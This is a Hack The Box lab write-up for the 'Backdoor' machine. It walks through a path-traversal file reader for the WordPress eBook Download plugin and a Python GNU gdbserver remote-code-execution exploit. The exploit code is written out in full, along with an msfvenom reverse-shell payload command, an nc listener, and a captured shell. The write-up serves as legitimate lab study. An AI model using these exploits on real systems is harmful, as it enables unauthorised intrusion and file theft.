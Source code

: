 # Hack The Box. Machines. Backdoor

Machine write-up: https://7rocky.github.io/en/htb/backdoor

### `dpt.py`

This Python script is used to retrieve files from the machine using a Directory Path Traversal vulnerability found on a Wordpress plugin called `eBook Download`.

Basically, making a GET request to `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=` and specifying the path to a file will return the contents of that file (if the user that is running the server has enough privileges, for instance, `www-data`).

Using `curl` we can check that it works:

```console
$ curl 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/hosts'
/etc/hosts/etc/hosts/etc/hosts127.0.0.1 localhost
127.0.1.1 backdoor

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
<script>window.close()</script>
```

However, we observe that the first and the last line contain some data that can be a little annoying. To avoid this, we can encapsulate the GET request in a simple Python script.

The GET request is performed using `requests` library:

```python
filename = sys.argv[1]
url = f'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl={filename}'
res = requests.get(url)
```

Notice that the path to the file is specified as a command line argument.

Then, we have the response body in `res.text`. Looking at the `curl` output, we see that the first line is the path to the file repeated three times. And the last line is always `<script>window.close()</script>`.

Using this information, we can easily filter these lines using cool string slicing techniques:

```python
first_line = 3 * filename
last_line = '<script>window.close()</script>'

file = res.text[len(first_line):-len(last_line)].strip()
```

And finally, print the contents of the desired file:

```console
$ python3 dpt.py /etc/hosts
127.0.0.1 localhost
127.0.1.1 backdoor

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### `pwn_gdbserver.py`

This is a Python exploit to gain Remote Command Execution (RCE) in a GNU gdbserver debugging some binary file that exposes a port. It can also be found in [ExploitDB](https://www.exploit-db.com/exploits/50539) or using `searchsploit`:

```console
$ searchsploit gdbserver
---------------------------------------------------- -----------------------
 Exploit Title                                      | Path
---------------------------------------------------- -----------------------
 GNU gdbserver 9.2 - Remote Command Execution (RCE) | linux/remote/50539.py
---------------------------------------------------- -----------------------
Shellcodes: No Results
```

There is already a Metasploit module (multi/gdb/gdb_server_exec) to obtain RCE over GNU gdbserver.

However, the aim of this Python script is to have a working exploit for GNU gdbserver without the need of using Metasploit (`msfconsole`), for the sake of knowing what the module is doing behind the hood.

I have described how the exploit must be run inside the script:

```plaintext
Usage: python3 pwn-gdbserver.py <gdbserver-ip:port> <path-to-shellcode>

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 pwn-gdbserver.py 10.10.10.200:1337 rev.bin
```

First of all, we must generate a shellcode using `msfvenom`, specifying the local IP address and port where `nc` will be listening. Do not forget to use the option `PrependFork=true` and to output the shellcode to a file.

After that, we can set the `nc` listener and run the exploit specifying the remote IP address and port where the GNU gdbserver is running (formatted as `<ip>:<port>`) and the path to the shellcode.

Let's see what the exploit actually does. After some parameter parsing, we connect to the remote GNU gdbserver and call the `exploit` function:

```python
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
    sock.connect((ip, int(port)))
    print('[+] Connected to target. Preparing exploit')
    exploit(sock, payload)
    print('[*] Pwned!! Check your listener')
```

Inside the `exploit` function, there are some calls to `send`:

```python
def send(sock, s: str) -> str:
    sock.send(f'${s}#{checksum(s)}'.encode())
    res = sock.recv(1024)
    ack(sock)
    return res.decode()
```

This function just sends data to the remote machine through the socket. GNU gdbserver requires that the data is formatted as `$<data>#<checksum-of-data>`. The `checksum` is a function that sums all bytes of the data and leaves the least significant byte (the output is in hexadecimal format):

```python
def checksum(s: str) -> str:
    res = sum(map(ord, s)) % 256
    return f'{res:2x}'
```

The `ack` function only sends an acknowledgement (ACK) to the remote machine. The GNU gdbserver protocol uses a `+` sign as ACK (more information [here](https://sourceware.org/gdb/current/onlinedocs/gdb/Packet-Acknowledgment.html#Packet-Acknowledgment)).

```python
def ack(sock):
    sock.send(b'+')
```

First of all, we must send to the remote GNU gdbserver what features we support (as if we where using `gdb`). The following ones are enough:

```python
send(sock, 'qSupported:multiprocess+;qRelocInsn+;qvCont+;')
```

Basically, we tell the server that we support multiprocessing, relocating instruction packets and specifying actions (more information [here](https://sourceware.org/gdb/current/onlinedocs/gdb/General-Query-Packets.html#qSupported)).

Next, we must enable the extended mode (more information [here](https://sourceware.org/gdb/current/onlinedocs/gdb/Packets.html#Packets)):

```python
send(sock, '!')
```

After that, we perform a "step" action (more information [here](https://sourceware.org/gdb/current/onlinedocs/gdb/Packets.html#vCont-packet)) and read the response from the server:

```python
try:
    res = send(sock, 'vCont;s')
    data = res.split(';')[2]
    arch, pc = data.split(':')
except Exception:
    print('[!] ERROR: Unexpected response. Try again later')
    exit(1)
```

This response contains data between semi-colons, and the third one contains actually the value of the Instruction Pointer register, indicating the type of architecture as well (mainly x86 and x64).

There were some weird cases where the server did not answer with enough data and an exception was triggered, that is the reason to have the `except` block.

Now we need to differentiate between the two most common architectures. Notice that `10` is 16 in hexadecimal and `08` is 8, which is the size of the registers in number of bits. After that, we must parse the Instrucion Pointer address in Little-Endian and add padding if necessary:

```python
if arch == '10':
    print('[+] Found x64 arch')
    pc = binascii.unhexlify(pc[:pc.index('0*')])
    pc += b'\0' * (8 - len(pc))
    addr = hex(struct.unpack('<Q', pc)[0])[2:]
    addr = '0' * (16 - len(addr)) + addr
elif arch == '08':
    print('[+] Found x86 arch')
    pc = binascii.unhexlify(pc)
    pc += b'\0' * (4 - len(pc))
    addr = hex(struct.unpack('<I', pc)[0])[2:]
    addr = '0' * (8 - len(addr)) + addr
```

Finally, the last step of the exploit is sending the shellcode:

```python
hex_length = hex(len(payload))[2:]

print('[+] Sending payload')
send(sock, f'M{addr},{hex_length}:{payload}')
send(sock, 'vCont;c')
```

To write the shellcode into the binary that is being debugged by GNU gdbserver, we must use an message like `M<address>,<length>:<data>`. This is simple, the address is the Instruction Pointer previously parsed, the length is obviously the length of our payload in hexadecimal and the payload is the `msfvenom` shellcode.

Finally, we send a "continue" acion (more information [here](https://sourceware.org/gdb/current/onlinedocs/gdb/Packets.html#vCont-packet)) and obtain a connection on the `nc` listener because the shellcode is being executed.

More information about GNU gdbserver serial protocol [here](http://davis.lbl.gov/Manuals/GDB/gdb_31.html#SEC630).

This is the process for getting RCE in Backdoor:

```console
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.17.44 LPORT=4444 PrependFork=true -o rev.bin  
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin

$ python3 pwn-gdbserver.py 10.10.11.125:1337 rev.bin  
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
```

```console
$ nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.125.
Ncat: Connection from 10.10.11.125:31367.
whoami
user
hostname
Backdoor
```

